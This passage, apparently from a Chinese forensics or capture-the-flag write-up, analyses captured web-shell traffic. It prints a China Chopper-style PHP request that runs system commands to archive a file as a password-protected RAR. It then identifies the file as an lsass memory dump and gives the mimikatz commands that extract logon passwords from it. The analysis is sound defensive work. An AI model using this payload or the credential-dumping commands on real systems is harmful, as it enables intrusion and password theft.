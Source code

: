 ```
yo=@eval(base64_decode($_POST[z0]));&z0=@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("->|");;$p=base64_decode($_POST["z1"]);$s=base64_decode($_POST["z2"]);$d=dirname($_SERVER["SCRIPT_FILENAME"]);$c=substr($d,0,1)=="/"?"-c \"{$s}\"":"/c \"{$s}\"";$r="{$p} {$c}";@system($r." 2>&1",$ret);print ($ret!=0)?"
ret={$ret}
":"";;echo("|<-");die();&z1=cmd&z2=cd /d "c:\inetpub\wwwroot\"&C:\progra~1\WinRAR\rar a C:\Inetpub\wwwroot\backup\wwwroot.rar C:\Inetpub\wwwroot\backup\1.gif -hpJJBoom&echo [S]&cd&echo [E] 
```

其中 hp 后面的 JJBoom 就是压缩包的密码了，解压得到一个 1.gif 文件，trid 鉴定一下，发现是个 Minidump 文件：

![enter image description here](img/img15_u37_png.jpg)

将后缀改成 mdmp 之后，使用 Visual Studio 打开看了下，发现是 lsass.exe 进程的 Dump 文件，如下图所示：

![enter image description here](img/img16_u35_png.jpg)

Google 一下关键字“lsass dump 密码”，就看到了 mimikatz，所以根据经验这就是通过 mimikatz 来读取密码了，打开 mimikatz，然后输入如下命令：

> sekurlsa::minidump 1.mdmp
> 
> sekurlsa::logonPasswords

就能看到分析出来的密码了，密码处显示<tab><space>，如下图所示：</space></tab>
